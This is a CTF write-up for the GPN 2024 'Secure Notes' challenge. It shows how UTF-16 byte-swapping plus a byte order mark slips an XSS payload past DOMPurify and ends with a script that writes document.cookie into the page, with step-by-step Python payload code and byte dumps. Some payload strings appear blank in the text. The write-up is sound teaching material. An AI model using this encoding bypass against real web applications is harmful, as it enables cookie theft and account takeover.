


In this post I will show you a very interesting challenge that came up in the recent GPN 2024 CTF.

The challenge is called Secure Notes and is authored by **@13x1**.

We are provided with an extremely short source (exactly 16 lines!), but before you get excited, this challenge had the least solves by a margin despite its conciseness. In fact, for over 36 hours, only five teams were able to solve it. I personally could not solve it without help.

Other than the source code, we were given access to an admin bot and were told that this is an XSS challenge. We need to trigger XSS.

> Trigger XSS and 16 lines? How hard could it be?

Let's see:
```js
const DOMPurify = require("dompurify")(new (require("jsdom").JSDOM)("").window); // the only dependency!

require("fs").mkdirSync("notes", { recursive: true });

require("http")
  .createServer((req, res) => {
    try {
      if (req.url === "/") {
        res.setHeader("Content-Type", "text/html");
        res.end(
          `<textarea id="content"></textarea><br><button onclick="location='/submit?'+encodeURIComponent(content.value)">Submit`
        );
      } else if (req.url.startsWith("/submit")) {
        const content = decodeURIComponent(req.url.split("submit?")[1]);
        const id = require("crypto").randomBytes(16).toString("hex");
        require("fs").writeFileSync(
          `notes/${id}.html`,
          DOMPurify.sanitize(content),
          "utf-16le"
        );
        res.setHeader("Location", `/notes/${id}`);
        res.statusCode = 302;
        res.end();
      } else if (req.url.startsWith("/notes/")) {
        const id = req.url.split("/notes/")[1].match(/^[a-f0-9]{32}$/);

        res.setHeader("Content-Type", "text/html; charset=utf-16le");
        res.end(require("fs").readFileSync(`notes/${id}.html`));
      }
    } catch (e) {
      console.log(e);
    }
  })
  .listen(1337);
  // code formatting by me
```

In summary, this is a barebone Node `http` server that has three routes:
- `/`: a submittable text form
- `/submit?<content>`: saves `<content>` under `notes/` 
- `/notes/<id>`: returns `notes/<id>.html` contents

I suggest attempting to solve this on your own, `npm i dompurify jsdom`, then `node app.js` and you are set.

If you managed to solve it, good job, kudos to you; otherwise, read through the solution and explanation below.

## Solution (Spoilers ahead!)
I hope you gave it a go, now with the solution.

I will be providing a walkthrough-like explanation of the ideas required to solve this challenge as we go so we can maximize learning.

First, let's patch our server so we can have better clarity on how's our input looking like internally at various stages:
```js
console.log("received:", content);
console.log("sanitized:", DOMPurify.sanitize(content));
console.log("saved:", Buffer.from(DOMPurify.sanitize(content), "utf-16le"));
```

>For context, and for each of the following payloads we will be sending them and capturing the `id` of the saved note using the following scaffold:
>```python
>import requests
>from urllib.parse import quot
>
># ... payload here ...
>
>r = requests.get(f'{url}/submit?{quote(payload)}', allow_redirects=False)
>note_id = r.headers.get('Location').split('/notes/')[1]
>
>print(note_id)
>```

We need the `note_id` since that is what we provide to the admin bot in case of successful XSS.

Let's start by seeing how the server behaves with different payloads:
```python
payload = ''
# sent: ''

# --- server ---
# received: 
# sanitized: 
# saved: <Buffer 3c 00 69 00 6d 00 67 00 20 00 73 00 72 00 63 00 3d 00 22 00 22 00 3e 00>

# --- client ---
data: b'<\x00i\x00m\x00g\x00 \x00s\x00r\x00c\x00=\x00"\x00"\x00>\x00'
decoded_utf_16_le: 
```
For starters, we can see DOMPurify kick in and effortlessly sanitize our payload. The sanitized payload is then encoded and saved as little endian UTF-16 or `utf-16le` as JS calls it.

`utf-16le` is a variable length encoding with a minimum codepoint length of two bytes or 16-bits. Each codepoint is stored in little endian order. For example, the ASCII character `<` (0x3c) will be represented as `\x3c\x00` in `utf-16le`.

You can see how the buffer looks like in the example above, since our payload is restricted to ASCII, the `utf-16le` encoded payload ends up being a null byte delimited sequence of ASCII characters.

>Note: The python codec for little endian UTF-16 is called `utf-16-le`, the alias `utf-16le` also works as per [the docs](https://docs.python.org/3/library/codecs.html) .

Let's try to encode our payload in `utf-16-le` and see what happens:
```python
payload = ''.encode('utf-16-le')
# sent: b'<\x00i\x00m\x00g\x00 \x00s\x00r\x00c\x00 \x00o\x00n\x00e\x00r\x00r\x00o\x00r\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)\x00>\x00'

# --- server ---
# received: 
# sanitized: &lt;img src onerror=alert(1)&gt;
# saved: <Buffer 26 00 6c 00 74 00 3b 00 69 00 6d 00 67 00 20 00 73 00 72 00 63 00 20 00 6f 00 6e 00 65 00 72 00 72 00 6f 00 72 00 3d 00 61 00 6c 00 65 00 72 00 74 00 ... 14 more bytes>

# --- client ---
data: b'&\x00l\x00t\x00;\x00i\x00m\x00g\x00 \x00s\x00r\x00c\x00 \x00o\x00n\x00e\x00r\x00r\x00o\x00r\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)\x00&\x00g\x00t\x00;\x00'
decoded_utf_16_le: &lt;img src onerror=alert(1)&gt;
```

The browser receives the byte sequence annotated as `data` above and because it has been instructed using the response's `Content-Type: application/html; charset=utf-16le`, it will decode the data as `utf-16le` and retrieve exactly the DOMPurify sanitized input:
```
&lt;img src onerror=alert(1)&gt;
```
which is rendered to a literal:


Notice that in this second example, `onerror=alert(1)` was completely preserved, compared to the first one where DOMPurify removed it. In both instances, DOMPurify did what is necessary to neutralize the input. In the first case, the payload was a valid HTML tag that would have resulted in malicious code execution through `onerror`, hence DOMPurify had to strip that attribute.

In this instance however, the input to DOMPurify was `utf-16le` encoded already, that is DOMPurify received a null byte delimited ASCII string similar to this (but using 0x00 instead of spaces):
```
< i m g   s r c   o n e r r o r = a l e r t ( 1 ) >
```
 Our UTF-16LE encoding broke the payload, turning it into a plain text string that we can no longer use for XSS. The only thing that DOMPurify will do though, is HTML entity encode the `<` and `>` to `&lt;` and `&gt;` so that they can be displayed correctly by the browser.

We need to rethink our strategy.

We need a payload that meets these two conditions:
1. When read by `DOMPurify` is considered benign
2. When saved by the server as little endian, the browser can still evaluate it as XSS

Our UTF-16LE encoded payload above meets step 1 as it is considered benign by `DOMPurify`, however, it IS actually benign and does nothing when loaded.

What about UTF-16 `utf-16-be`? Let's try:
```python
payload = ''.encode('utf-16-be')
# sent: b'\x00<\x00i\x00m\x00g\x00 \x00s\x00r\x00c\x00 \x00o\x00n\x00e\x00r\x00r\x00o\x00r\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)\x00>'

# --- server ---
# received: 
# sanitized: &lt;img src onerror=alert(1)&gt;
# saved: <Buffer 26 00 6c 00 74 00 3b 00 69 00 6d 00 67 00 20 00 73 00 72 00 63 00 20 00 6f 00 6e 00 65 00 72 00 72 00 6f 00 72 00 3d 00 61 00 6c 00 65 00 72 00 74 00 ... 14 more bytes>

# --- client ---
data: b'&\x00l\x00t\x00;\x00i\x00m\x00g\x00 \x00s\x00r\x00c\x00 \x00o\x00n\x00e\x00r\x00r\x00o\x00r\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)\x00&\x00g\x00t\x00;\x00'
decoded_utf_16_le: &lt;img src onerror=alert(1)&gt;
```
Data received, sanitized and saved by the server is exactly the same as it's little endian counterpart, perhaps the leading null byte is stripped at some point either by `DOMPurify` or by the `http` server, not sure.

The exact reason is irrelevant since regardless of where exactly was the leading null byte stripped, the result will be the same, we are getting a string of null byte delimited ASCII characters that is completely benign and produces the same result:


This will not work.

What if we flip the bytes?
```python
>>> '\u003c'
'<'
>>> '\u3c00'
'㰀'
```

The Unicode codepoint `\u003c` when interpreted as big endian, will give us the character equivalent to `0x3c = 60 = "<"` while the *same* sequence, interpreted as little endian will give us the character equivalent to `0x3c00 = 15360 == "㰀"`. This is critical for solving this challenge.

|  |  |
| -------------------------- | ---------------------------------------- |

The figure above shows us both codepoints next to each other, one is a special HTML character that signals the start of a tag (`0x3c`) while the other is a CJK character (`0x3c00`) that has no meaning, well at least to an HTML parser :)

>In internationalization, CJK characters is a collective term for graphemes used in the Chinese, Japanese, and Korean writing systems
>*- Wikipedia*

Let's try and make use of our new information:
```python
payload = ''.encode('utf-16-be').decode('utf-16-le')
# sent: 㰀椀洀最 猀爀挀 漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀㄀⤀㸀

# --- server ---
# received: 㰀椀洀最 猀爀挀 漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀㄀⤀㸀
# sanitized: 㰀椀洀最 猀爀挀 漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀㄀⤀㸀
# saved: <Buffer 00 3c 00 69 00 6d 00 67 00 20 00 73 00 72 00 63 00 20 00 6f 00 6e 00 65 00 72 00 72 00 6f 00 72 00 3d 00 61 00 6c 00 65 00 72 00 74 00 28 00 31 00 29 ... 2 more bytes>

# --- client ---
data: b'\x00<\x00i\x00m\x00g\x00 \x00s\x00r\x00c\x00 \x00o\x00n\x00e\x00r\x00r\x00o\x00r\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)\x00>'
decoded_utf_16_le: 㰀椀洀最 猀爀挀 漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀㄀⤀㸀
```

In our updated payload, we encode our payload using `utf-16-be` then decode it back into Python's internal UTF-8 representation using `utf-16-le`. This has the effect of swapping the bytes of our payload and using UTF-8 (Python's internal string representation) as our method storing the swapped bytes.

Printing out the swapped UTF-8 bytes in Python we get ''㰀椀洀最 猀爀挀 漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀㄀⤀㸀" notice the first character, looks familiar?

When this string goes through DOMPurify, it will mostly be a passthrough as it is just a pure CJK string with no HTML meta characters, it is then saved in little endian and decoded by the browser also as little endian, the user ends up seeing the same CJK string:



We need to do better. Hmm...

Let's stop and recap what we have done. So far, we are able to disguise our payload by swapping each two bytes using our little `.encode('utf-16-le').decode('utf-16-be')` trick. This allowed our payload to go through DOMPurify since it really is just an innocent string at that point.

However, can we get this innocuous string to do something malicious? If you look closely, what we passed through is not just a random string. It actually has double meaning based on the way you choose to interpret it, one way being less innocent than the other.

What does that mean?

As we know, the server responds with `Content-Type: application/html; charset=utf-8` which instructs the browser to treat the response as little endian, this causes our manipulated, swapped bytes like `\x00\x3c` to be decoded to 㰀 instead of the malicious form that we want.

We can see this better with CyberChef:

- Blue is us swapping the payload bytes into a harmless string
- Red is the server as it encodes and saves the DOMPurify output to disk
- Orange is what the browser sees - also a harmless string in the case of UTF-16LE

Let's see what happens if we change the orange part to interpret the string as UTF-16BE:


Wow! That's impressive.

This means that if we could, somehow, instruct the browser to ignore that `charset=utf-16le` in the response and use `utf-16be` instead, we will be able to achieve XSS.

Let's reframe it into a question: how does our browser determine content encoding or endianness of its content to start with? 

I chose to ask the most authoritative source possible on the matter, the WHATWG HTML specification itself.

Within the [WHATWG HTML Standard](https://html.spec.whatwg.org/multipage/parsing.html#determining-the-character-encoding) we can search for "encoding" or "charset" and eventually we can find a section that reads "Determining the character encoding" :


The section lists 9 different *algorithms* for determining a document's character encoding, ordered by precedence, primarily:
>1. If the result of BOM sniffing is an encoding, return that encoding with confidence certain.

So there is a procedure called "BOM sniffing" that takes precedence over everything else for determining the character encoding of a document.

Let's see what the section on BOM sniffing has to say:

[Reference](https://encoding.spec.whatwg.org/#bom-sniff)

Byte order mark (BOM) sniffing is a technique that allows a parser to determine the character encoding and endianness of the content by inspecting the first two to three bytes for a certain sequence.

The sequence used as a BOM is the *U+FEFF ZERO WIDTH NO-BREAK SPACE* [codepoint](https://util.unicode.org/UnicodeJsps/character.jsp?a=FEFF&B1=Show) which is an invisible zero-width Unicode codepoint. This codepoint's encoded represntation is used as a telltale regarding the encoding of the rest of the content.

| Byte order mark | Encoding |
| --------------- | -------- |
| 0xEF 0xBB 0xBF  | UTF-8    |
| 0xFE 0xFF       | UTF-16BE |
| 0xFF 0xFE       | UTF-16LE |

Notice that if we are to use Python to send this sequence, we should use `\ufeff` escape literal or the `b'\xef\xbb\xbf\` byte sequence since Python uses UTF-8 strings. In Python, `\ufeff` is not equivalent to `\xfe\xff` as the former would be UTF-16BE decoded to `fe ff` as a single codepoint, while the latter would be UTF-16BE decoded to `00 fe 00 ff` as two codepoints.

The example below illustrates that the two are indeed different using three encodings:
```python
# utf-8
>>> '\ufeff'.encode('utf-8')
b'\xef\xbb\xbf'
>>> '\xfe\xff'.encode('utf-8')
b'\xc3\xbe\xc3\xbf'

# utf-16-be
>>> '\ufeff'.encode('utf-16-be')
b'\xfe\xff'
>>> '\xfe\xff'.encode('utf-16-be')
b'\x00\xfe\x00\xff'

# utf-16-le
>>> '\ufeff'.encode('utf-16-le')
b'\xff\xfe'
>>> '\xfe\xff'.encode('utf-16-le')
b'\xfe\x00\xff\x00'
```

Play around with encoding and decoding, try different combinations until you get the hang of it, it is useful to wrap your head around this important concept and be able to write code that deals with encodings comfortably.

You can also use [util.unicode.org](https://util.unicode.org/UnicodeJsps/character.jsp?a=FEFF&B1=Show) to explore  different codepoints and their representations.

Alright, let's get to work.

Based on everything we have discussed so far, we know that to coerce the browser into using `UTF-16BE` encoding, we need to provide the *Byte order mark* `0xfe 0xff` before our payload. we also know how to send the BOM correctly:
```python
# --- attacker side ---
# what payload looks like after swapping
>>> '\ufeff'.encode('utf-16-le').decode('utf-16-be')
'\ufffe㰀椀洀最\u2000猀爀挀\u2000漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀\u3100⤀㸀'

# --- server-side ---
# server encodes and saves to disk
>>> '\ufffe㰀椀洀最\u2000猀爀挀\u2000漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀\u3100⤀㸀'.encode('utf-16-le')
b'\xfe\xff\x00<\x00i\x00m\x00g\x00 \x00s\x00r\x00c\x00 \x00o\x00n\x00e\x00r\x00r\x00o\x00r\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)\x00>'

# --- victim / client-side ---
# browser tries to identify content encoding, it starts with
# BOM sniffing and encounters the sequence \xfe\xff which denotes UTF-16BE
>>> b'\xfe\xff\x00<\x00i\x00m\x00g\x00 \x00s\x00r\x00c\x00 \x00o\x00n\x00e\x00r\x00r\x00o\x00r\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)\x00>'.decode('utf-16-be')
'\ufeff'
```

Looks good on paper, let's wrap it all in a nice script and run it:
```python
import requests
from urllib.parse import quote

payload = '\ufeff'
payload = payload.encode('utf-16-le').decode('utf-16-be')

r = requests.get(f'{url}/submit?{quote(payload)}', allow_redirects=False)

note_id = r.headers.get('Location').split('/notes/')[1]
# we keep the note so we can check the content in a browser
print(note_id)
```

Internally:
```python
payload = '\ufeff'.encode('utf-16-be').decode('utf-16-le')
# sent: 㰀椀洀最 猀爀挀 漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀㄀⤀㸀

# --- server ---
# received: ￾㰀椀洀最 猀爀挀 漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀㄀⤀㸀
# sanitized: ￾㰀椀洀最 猀爀挀 漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀㄀⤀㸀
# saved: <Buffer fe ff 00 3c 00 69 00 6d 00 67 00 20 00 73 00 72 00 63 00 20 00 6f 00 6e 00 65 00 72 00 72 00 6f 00 72 00 3d 00 61 00 6c 00 65 00 72 00 74 00 28 00 31 ... 4 more bytes

# --- client ---
data: b'\xfe\xff\x00<\x00i\x00m\x00g\x00 \x00s\x00r\x00c\x00 \x00o\x00n\x00e\x00r\x00r\x00o\x00r\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)\x00>'
decoded_utf_16_le: ￾㰀椀洀最 猀爀挀 漀渀攀爀爀漀爀㴀愀氀攀爀琀⠀㄀⤀㸀
# browser chooses this because of the BOM
decoded_utf_16_be: 
```

Which also means:


We can now craft a weaponized payload to send the admin:
```python
payload = '\ufeff<script>document.write(document.cookie)</script>'
```

Running this on the challenge instance, and sending the saved `note_id` to the admin bot gives us:


`GPNCTF{UN1C0D3_15_4_N34T_4TT4CK_V3CT0R}`

A neat vector indeed.

Well, that was fun and educational. Generally, I find encoding and Unicode fascinating and would like to learn more about them, I don't know why actually, I used to think of encoding as a dull topic, but as I explored it more, the challenge it tries to solve, how different encodings are more suitable for certain applications, parsing logic, etc, I realized it actually is very interesting.

Also now that I know that encoding can be abused to perform various web attacks like WAF bypasses and even the XSS we have done here, I am more interested than ever :)

Hope you enjoyed and learnt something new, see in the next one 👋
